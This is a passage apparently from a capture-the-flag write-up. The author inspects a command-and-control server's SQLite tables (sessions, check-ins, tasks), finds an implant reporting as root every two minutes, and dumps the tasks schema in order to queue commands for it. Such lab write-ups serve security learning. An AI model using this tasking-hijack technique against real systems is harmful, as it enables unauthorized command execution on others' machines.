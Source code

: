 
Looking at the sessions, there's three with my hostname, and the first
one from spooktrol:



    sqlite> select * from sessions;
    1|10a6dd5dde6094059db4d23d7710ae12|spooktrol
    2|16f55c83d2bb6c1f59aa654da817a256|parrot
    3|1da79ea0774ee5438910b2d2734e3188|parrot
    4|17a831078f79c7c80a2dade8bd2edf50|parrot



It looks like there's a session on the host!

I'll look for when it last checked in:



    sqlite> select * from checkins where session = "10a6dd5dde6094059db4d23d7710ae12";
    1|10a6dd5dde6094059db4d23d7710ae12|2021-10-21 21:50:02.080706 
    2|10a6dd5dde6094059db4d23d7710ae12|2021-10-21 21:52:01.511302
    ...[snip]...
    133|10a6dd5dde6094059db4d23d7710ae12|2021-10-22 01:38:01.540701
    134|10a6dd5dde6094059db4d23d7710ae12|2021-10-22 01:40:01.706032
    135|10a6dd5dde6094059db4d23d7710ae12|2021-10-22 01:42:01.907263



It looks like every two minutes, and the last one was a minute ago.

The `tasks` table has valuable info as well:



    sqlite> select * from tasks;
    1|10a6dd5dde6094059db4d23d7710ae12|1|1|whoami||root

    2|16f55c83d2bb6c1f59aa654da817a256|1|1|whoami||oxdf

    3|1da79ea0774ee5438910b2d2734e3188|0|1|whoami||
    4|17a831078f79c7c80a2dade8bd2edf50|0|1|whoami||



The first check is from the spookytrol session, which is reporting
running as root. There's a successful on from me as well, and two more
that I changed with Burp so they are pending.

### Task Implant

If the implant on the host is connecting back every two minutes, I'll
create a task for it. `.dump tasks` will give the syntax:



    sqlite> .dump tasks
    PRAGMA foreign_keys=OFF;
    BEGIN TRANSACTION;
    CREATE TABLE tasks (
            id INTEGER NOT NULL, 
            target VARCHAR, 
            status INTEGER, 
            task INTEGER, 
            arg1 VARCHAR, 
            arg2 VARCHAR, 
            result VARCHAR, 
            PRIMARY KEY (id)
    );
    INSERT INTO tasks VALUES(1,'10a6dd5dde6094059db4d23d7710ae12',1,1,'whoami','',X'726f6f740a');
    INSERT INTO tasks VALUES(2,'16f55c83d2bb6c1f59aa654da817a256',1,1,'whoami','',X'6f7864660a');
    INSERT INTO tasks VALUES(3,'1da79ea0774ee5438910b2d2734e3188',0,1,'whoami','','');
    INSERT INTO tasks VALUES(4,'17a831078f79c7c80a2dade8bd2edf50',0,1,'whoami','','');
    CREATE INDEX ix_tasks_id ON tasks (id);